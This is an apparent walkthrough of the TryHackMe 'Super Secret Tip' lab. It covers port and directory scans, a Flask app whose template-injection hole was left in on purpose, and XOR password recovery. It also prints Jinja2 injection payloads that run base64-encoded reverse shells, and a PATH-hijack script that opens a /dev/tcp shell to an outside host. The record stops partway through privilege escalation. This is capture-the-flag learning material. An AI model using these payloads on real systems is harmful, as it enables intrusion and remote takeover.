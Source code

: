 <code>

https://tryhackme.com/room/supersecrettip


```nmap  -sV -A -Pn 10.10.150.162   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-27 12:40 CEST
Nmap scan report for 10.10.150.162
Host is up (0.038s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:b8:18:ef:45:a8:df:59:bf:11:49:4b:1d:b6:b8:93 (RSA)
|   256 0b:cf:f9:94:06:85:97:f6:bd:cc:33:66:4e:26:ea:27 (ECDSA)
|_  256 60:ce:be:2d:1e:f0:18:00:30:70:ff:a2:66:d7:85:f7 (ED25519)
7777/tcp open  cbt?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
```




```                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.150.162:7777 -x .php, .txt, .html 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.150.162:7777
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/cloud                (Status: 200) [Size: 2991]
/debug                (Status: 200) [Size: 1957]
```

                                                                                                                               
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.67.247:7777/cloud -x .php, .txt
nothing

## FFUZ

```
POST http://10.10.247.188:7777/cloud HTTP/1.1
host: 10.10.247.188:7777
user-agent: Mozilla/5.0 (Windows NT 10.0; rv:125.0) Gecko/20100101 Firefox/125.0
pragma: no-cache
cache-control: no-cache
content-type: application/x-www-form-urlencoded
referer: http://10.10.247.188:7777/cloud
content-length: 21

download=FFUZ
```


**Get Source.py file**

```
from flask import *
import hashlib
import os
import ip # from .
import debugpassword # from .
import pwn

app = Flask(__name__)
app.secret_key = os.urandom(32)
password = str(open('supersecrettip.txt').readline().strip())

def illegal_chars_check(input):
    illegal = "'&;%"
    error = ""
    if any(char in illegal for char in input):
        error = "Illegal characters found!"
        return True, error
    else:
        return False, error

@app.route("/cloud", methods=["GET", "POST"]) 
def download():
    if request.method == "GET":
        return render_template('cloud.html')
    else:
        download = request.form['download']
        if download == 'source.py':
            return send_file('./source.py', as_attachment=True)
        if download[-4:] == '.txt':
            print('download: ' + download)
            return send_from_directory(app.root_path, download, as_attachment=True)
        else:
            return send_from_directory(app.root_path + "/cloud", download, as_attachment=True)
            # return render_template('cloud.html', msg="Network error occurred")

@app.route("/debug", methods=["GET"]) 
def debug():
    debug = request.args.get('debug')
    user_password = request.args.get('password')
    
    if not user_password or not debug:
        return render_template("debug.html")
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debug.html", error=error)

    # I am not very eXperienced with encryptiOns, so heRe you go!
    encrypted_pass = str(debugpassword.get_encrypted(user_password))
    if encrypted_pass != password:
        return render_template("debug.html", error="Wrong password.")
    
    
    session['debug'] = debug
    session['password'] = encrypted_pass
        
    return render_template("debug.html", result="Debug statement executed.")

@app.route("/debugresult", methods=["GET"]) 
def debugResult():
    if not ip.checkIP(request):
        return abort(401, "Everything made in home, we don't like intruders.")
    
    if not session:
        return render_template("debugresult.html")
    
    debug = session.get('debug')
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debugresult.html", error=error)
    user_password = session.get('password')
    
    if not debug and not user_password:
        return render_template("debugresult.html")
        
    # return render_template("debugresult.html", debug=debug, success=True)
    
    # TESTING -- DON'T FORGET TO REMOVE FOR SECURITY REASONS
    template = open('./templates/debugresult.html').read()
    return render_template_string(template.replace('DEBUG_HERE', debug), success=True, error="")

@app.route("/", methods=["GET"])
def index():
    return render_template('index.html')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=7777, debug=False)
```

**Main from source.py**

There is a file called ‘**supersecrettip.txt**’ in the same directory that we can download it.
This file import two other non-standard python file called **ip.py(using in /debugresult) and debugpassword.py** .
When using debugger, the “‘&;%” is the illegal character.
In the /cloud directory, there is only two kind of file can be downloaded, the first one is called “source.py”, another one is the file with “.txt” extension.
There is another directory called **/debugresult** . It seems use to get the feedback of the /debug page.

```
┌──(kali㉿kali)-[~/Documents/THM/THM_SuperSecretTip]
└─$ ls
debugpassword.py  ip.py  source.py  supersecrettip.txt
                                                                                                                               
┌──(kali㉿kali)-[~/Documents/THM/THM_SuperSecretTip]
└─$ cat debugpassword.py 
import pwn

def get_encrypted(passwd):
    return pwn.xor(bytes(passwd, 'utf-8'), b'ayham')
                                                                                                                               
┌──(kali㉿kali)-[~/Documents/THM/THM_SuperSecretTip]
└─$ cat ip.py           
host_ip = "127.0.0.1"
def checkIP(req):
    try:
        return req.headers.getlist("X-Forwarded-For")[0] == host_ip
    except:
        return req.remote_addr == host_ip
                                                                                                                               
┌──(kali㉿kali)-[~/Documents/THM/THM_SuperSecretTip]
└─$ cat supersecrettip.txt 
b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'


┌──(kali㉿kali)-[~/Documents/THM/THM_SuperSecretTip]
└─$ python3                                                
Python 3.11.9 (main, Apr 10 2024, 13:16:36) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'.hex()
'2000000000251c0d0318061e'
```

Set manualy X-Forwarded-For: 127.0.0.1 to reguest

Use CyberChef for xor to get **AyhamDeebugg** from 2000000000251c0d0318061e


{{"".__class__.__mro__[1].__subclasses__()}}

We are able to retrieve all classes used in the application and find the class **subprocess.Popen** like in the article. It is located at index 415. Found by a simple python program, we wrote iterating through the returned array. It differs from case to case.

So, we are able to call subprocess.Popen with the following payload:

{{"".__class__.__mro__[1].__subclasses__()[415]}} 


{{"".__class__.__mro__[1].__subclasses__()[415]("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjI4LjEwOC85MDAxIDA+JjE= | base64 -d | bash",shell=True,stdout=-1).communicate()}}
{{"".__class__.__mro__[1].__subclasses__()[416]("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjI4LjEwOC85MDAxIDA+JjEK | base64 -d | bash",shell=True,stdout=-1).communicate()}}

**Get reverse shell as user Ayham**

run linpeas and found

```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
*  *    * * *   root    curl -K /home/F30s/site_check
*  *    * * *   F30s    bash -lc 'cat /home/F30s/health_check'
```
**Privilage Escalation to F30s**

While enumerating, we find a writable .profile file in F30s home directory. 

We are able to manipulate his PATH variable which is helpful, because the cronjob for F30s is running bash with the tag -l which means it act as if it had been invoked as a login shell referring the PATH variable.

```           
ayham@482cbf2305ae:/home/F30s$ echo 'PATH="/home/ayham/bin/:$PATH"' > .profile
ayham@482cbf2305ae:/home/F30s$ cat .profile
cat .profile
PATH="/home/ayham/bin/:$PATH"
ayham@482cbf2305ae:~/bin$ echo '#!/bin/bash' > cat
echo '#!/bin/bash' > cat
ayham@482cbf2305ae:~/bin$ echo 'bash -i >& /dev/tcp/10.8.28.108/4445 0>&1' >> cat
< 'bash -i >& /dev/tcp/10.8.28.108/4445 0>&1' >> cat
ayham@482cbf2305ae:~/bin$ more cat
more cat
#!/bin/bash
bash -i >& /dev/tcp/10.8.28.108/4445 0>&1
```



